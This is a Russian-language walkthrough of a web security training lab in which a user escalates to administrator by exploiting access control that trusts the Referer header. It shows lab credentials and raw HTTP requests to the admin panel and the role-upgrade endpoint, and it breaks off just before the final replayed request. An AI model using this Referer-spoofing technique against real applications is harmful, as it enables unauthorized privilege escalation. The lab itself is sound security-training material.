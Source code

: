 Эта лаборатория контролирует доступ к определенным функциям администратора на основе заголовка Referer. Вы можете ознакомиться с панелью администратора, войдя в систему с использованием учетных данных `administrator:admin`.

Чтобы решить лабораторную работу, войдите в систему, используя учетные данные `wiener:peter`, и воспользуйтесь недостатками контроля доступа, чтобы повысить себя до уровня администратора.

## Дано

- Учётка для изучения админская `administrator:admin`
- Наша учётка `wiener:peter`
## Задача

- Повысить доступ учётки wiener
# Решение

1. Изучаем функционал админ панели 

Доступ к админ панели
```
GET /admin HTTP/2
Host: 0a7c001103b5406283f6706600b00056.web-security-academy.net
Cookie: session=HtKV01CfVvL0N0bMHosHcNJrlCvRRoJ3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a7c001103b5406283f6706600b00056.web-security-academy.net/my-account?id=administrator
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```

Повышение привилегии
```
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a7c001103b5406283f6706600b00056.web-security-academy.net
Cookie: session=HtKV01CfVvL0N0bMHosHcNJrlCvRRoJ3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a7c001103b5406283f6706600b00056.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```

2. Заходим под собой и пробуем запрос на повышение с добавлением Referer:
